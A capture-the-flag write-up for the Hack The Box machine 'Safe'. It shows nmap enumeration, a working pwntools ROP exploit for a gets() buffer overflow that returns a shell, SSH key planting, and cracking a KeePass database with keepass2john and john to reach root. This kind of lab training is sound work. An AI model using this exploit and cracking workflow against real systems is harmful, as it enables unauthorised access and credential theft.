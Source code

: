 ```yaml
---
title: Hack The Box Safe Write Up
published: true
---
```

Hey Guys.This is my write up about safe from hack the box.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/safe.png)

It is linux box and rated as easy.It is an oscp like box so let’s get jump in.

As always we start with nmap to scan for open port and services.

# [](#header-3)Enumeration

# [](#header-4)Nmap 
```
root@ch4n:~/Desktop/htb/boxes/safe# nmap -sC -sV 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 20:08 EST
Nmap scan report for 10.10.10.147
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds
```
Here is nmap scan and we got http on port 80 and ssh on port 22.

So nothing was interesting there and let’s go to the web page.

# [](#header-4)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page_source.png)

So when I check the web page source,I found that myapp is running on port 1337.

So let’s see port 1337 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/port_1337.png)

In here we got some text.So I downloaded myapp to my machine.And Let’s analyze it.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/checksec_myapp.png)

So in here when we check the file,it is an 64bit binary and NX is enabled but PIE is not..

So let’s disassemble the binary and let’s see how the program works..

I opened it up  in ghidra and check the main function.It is interesting one:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/ghidra.png)

```
undefined8 main(void)

{
  char local_78 [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
When we look up the code in main function you can see that the system excute usr/bin/uptime and it print What do you want to echo me back?

There are also gets and puts.

# [](#header-3)Exploitation 

I opened myapp with gdb and let’s calculate the offset:-)

I created the pattern and then run and put the pattern then program was crashed:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset%201.png)

 we can calculate the offset.It is 120.Then I create the pattern with 112 and added 8 bytes of b at the end.
 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset2.png)

In here we  can see that rbp register contains bbbbbbbb and it shows that This  offset  can control RIP with 120 bytes + 8 bytes:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/rbp_registers.png)

# [](#header-4)Writing Exploit 
I can’t  put the shellcode on the stack because NX is enabled so the stack isn’t executable. 

we can use the system function cause PIE is not enable so the address for system doesn't change

I used ropper -f myapp to find rop gadgets
```
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
```
So we will use this one:-)
# [](#header-4)Exploit
```
from pwn import*

p = remote("10.10.10.147" , 1337)
context(os="linux", arch="amd64")

JUNK  = "A"* 112
sh = "/bin/sh\x00"
system = p64(0x401040)
test = p64(0x401152)
r13 = p64(0x401206)

payload = JUNK + sh + r13 + system + "BBBBBBBB" + "CCCCCCCC" + test

p.recvline()
p.sendline(payload)
p.interactive()
```
After running this code we got the shell as user so this shell is not fully interactive so I added our ssh key to authorized_keys 

Then connect with sssh
```
user@safe:~$ ls -la
total 11284
drwxr-xr-x 3 user user    4096 May 13  2019 .
drwxr-xr-x 3 root root    4096 May 13  2019 ..
lrwxrwxrwx 1 user user       9 May 13  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user     220 May 13  2019 .bash_logout
-rw-r--r-- 1 user user    3526 May 13  2019 .bashrc
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rw-r--r-- 1 user user     675 May 13  2019 .profile
drwx------ 2 user user    4096 Jan 15 10:32 .ssh
-rw------- 1 user user      33 May 13  2019 user.txt
```
 In user directory,there are images and interesting files called MyPasswords.kdbx 

```
scp -i safe user@10.10.10.147:* .
```
After downloading all files,I made a simple bash line:-)

```
root@ch4n:~/Desktop/htb/boxes/safe# keepass2john MyPasswords.kdbx > hash;for i in *.JPG;do keepass2john -k $i MyPasswords.kdbx; done >> hash
```

```
root@ch4n:~/Desktop/htb/boxes/safe# cat hash
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I used john to crack the pass

```
root@ch4n:~/Desktop/htb/boxes/safe# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt hash
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64])
Remaining 6 password hashes with 6 different salts
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
```
So here we grab the pass as bullshit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/kpcli_pass.png)

here we got the root password and grab the root flag

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/root.png)

That's it guys.

Enjoy my write up
